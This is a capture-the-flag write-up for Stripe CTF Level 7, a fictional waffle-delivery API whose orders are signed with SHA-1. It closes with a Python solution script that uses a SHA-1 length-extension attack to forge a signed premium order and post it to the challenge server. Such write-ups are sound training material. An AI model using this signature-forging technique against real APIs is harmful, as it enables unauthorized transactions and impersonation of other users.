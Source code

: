 ## Level 7

Welcome to the penultimate level, Level 7.

WaffleCopter is a new service delivering locally-sourced organic waffles hot off of vintage waffle irons straight to your location using quad-rotor GPS-enabled helicopters. The service is modeled after [TacoCopter](http://tacocopter.com/), an innovative and highly successful early contender in the airborne food delivery industry. WaffleCopter is currently being tested in private beta in select locations.

Your goal is to order one of the decadent Liège Waffles, offered only to WaffleCopter's first premium subscribers.

Log in to your account at https://level07-1.stripe-ctf.com/user-xxxxxxxxxx with username `ctf` and password `password`. You will find your API credentials after logging in. You can fetch the code for the level via `git clone https://level07-1.stripe-ctf.com/user-xxxxxxxxxx/level07-code`, or you can read it below. You may find the sample API client in `client.py` particularly helpful.

### Running

#### WaffleCopter

WaffleCopter delivers hot waffles fresh off the iron straight to your location using quad-rotor GPS-enabled helicopters. The service is currently being tested in private beta in select locations.

Your goal is to order one of the decadent Liège waffles, offered only to the first premium subscribers of the service.

#### The API

The WaffleCopter API is quite simple. All users have a secret API token that is used to sign POST requests to /v1/orders. Parameters such as the waffle product code and target GPS coordinates are encoded as if for a query string and placed in the request body.

#### The Code

You can use `client.py` to talk to the API, specifying an appropriate API endpoint, user id, and secret key. The app itself is `wafflecopter.py`, which will use a SQLite database created by `initialize_db.py`. To edit flask settings, just create a `local_settings.py` file. The page templates can be found under `templates/`.

### Solution

**Note**: This solution relies upon the sha-ext library available at [http://www.vnsecurity.net/2010/03/codegate_challenge15_sha1_padding_attack/](http://www.vnsecurity.net/2010/03/codegate_challenge15_sha1_padding_attack/). A copy of that library has been copied here.

```python
#!/usr/bin/env python
import requests
from shaext import shaext

ext = shaext("count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo", 14, "1b0e763096a47ef15ae5744eb39380a2e2353bcd")
ext.add("&user_id=1&waffle=liege")

(new_msg, new_sig) = ext.final()

query = new_msg + '|sig:' + new_sig
resp = requests.post('https://level07-2.stripe-ctf.com/user-dgcyzragwh/orders', data=query)
print resp.text
```

Originally posted at [https://stripe-ctf.com/levels/7](https://stripe-ctf.com/levels/7).
